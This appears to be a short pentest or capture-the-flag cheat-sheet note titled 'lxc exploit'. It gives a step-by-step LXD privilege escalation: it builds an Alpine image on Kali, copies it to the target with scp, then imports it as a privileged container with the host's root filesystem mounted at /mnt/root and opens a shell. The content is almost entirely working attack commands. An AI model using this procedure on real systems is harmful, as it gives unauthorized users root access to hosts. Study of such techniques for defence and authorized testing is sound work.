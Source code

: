 
# lxc exploit

**kali linux**

Create an image. The result is a .tar file containing image, which should be tranferred to the target
```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
./build-alpine  
scp alpine.tar.gz bob@target:
```
I couldn't get it work with '-a i686', where i686 is the arhitecture
Set the appropriate arch if needed.


**target system**

```

lxc image import alpine.tar.gz --alias alpine
lxc image list
lxc init alpine privesc -c security.privileged=true
lxc list
lxc config device add privesc host-root disk source=/ path=/mnt/root/
lxc start privesc
lxc exec privesc /bin/sh
```

NOTE: the root folder is now in /mnt/root/

/tmp on host becomes /mnt/root/tmp

etc.
